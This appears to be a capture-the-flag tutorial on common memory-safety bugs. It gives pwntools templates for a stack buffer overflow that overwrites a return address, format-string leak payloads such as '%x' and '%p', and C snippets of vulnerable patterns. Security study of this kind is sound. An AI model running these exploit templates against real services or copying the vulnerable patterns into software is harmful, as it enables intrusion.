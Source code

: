 # Common Vulnerability Types

### 1. Stack Buffer Overflow

#### Identification
- Look for functions using `gets()`, `strcpy()`, `scanf()` without bounds
- Fixed-size buffers receiving user input
- Missing length validation

#### Exploitation Pattern
```python
# File: buffer_overflow_template.py
#!/usr/bin/env python3

from pwn import *

# Configuration
binary_path = "./vulnerable_binary"
host = "target.ctf.com"
port = 1337

# Set context for target architecture
context.arch = 'amd64'
context.log_level = 'info'

def exploit_local():
    """Exploit local binary"""
    p = process(binary_path)
    return exploit_common(p)

def exploit_remote():
    """Exploit remote service"""
    p = remote(host, port)
    return exploit_common(p)

def exploit_common(p):
    """Common exploitation logic"""
    # Wait for prompt
    p.recvuntil(b"Enter name: ")

    # Craft payload
    offset = 40  # Found through analysis
    target_function = 0x401234  # Address of win function

    payload = b'A' * offset
    payload += p64(target_function)

    # Send payload
    log.info("Sending payload...")
    p.sendline(payload)

    # Interact with shell/response
    p.interactive()

if __name__ == "__main__":
    # Uncomment appropriate line:
    exploit_local()
    # exploit_remote()
```

### 2. Format String Vulnerabilities

#### Identification
```c
// Vulnerable patterns:
printf(user_input);           // Direct user input to printf
fprintf(file, user_input);    // Same issue with fprintf
snprintf(buffer, size, user_input); // Can leak memory
```

#### Exploitation Basics
```python
# File: format_string_exploit.py
#!/usr/bin/env python3

from pwn import *

def test_format_string(binary_path):
    """Test for format string vulnerability"""
    p = process(binary_path)

    # Test payloads
    test_payloads = [
        b"%x" * 10,           # Leak stack values
        b"%p" * 5,            # Leak pointers
        b"%s",                # Potential crash
        b"AAAA" + b"%x" * 20, # Find position of input
    ]

    for payload in test_payloads:
        try:
            p = process(binary_path)
            p.sendline(payload)
            response = p.recv(timeout=2)
            print(f"Payload: {payload}")
            print(f"Response: {response}")
            print("-" * 40)
            p.close()
        except:
            print(f"Payload {payload} caused crash or timeout")

# Example usage
if __name__ == "__main__":
    test_format_string("./format_vuln_binary")
```

### 3. Integer Overflow

#### Identification
```c
// Look for patterns like:
int size;
scanf("%d", &size);
char* buffer = malloc(size);  // What if size < 0?

unsigned int length;
scanf("%u", &length);
if (length > MAX_SIZE) {      // What if length wraps around?
    return -1;
}
char buffer[length];
```
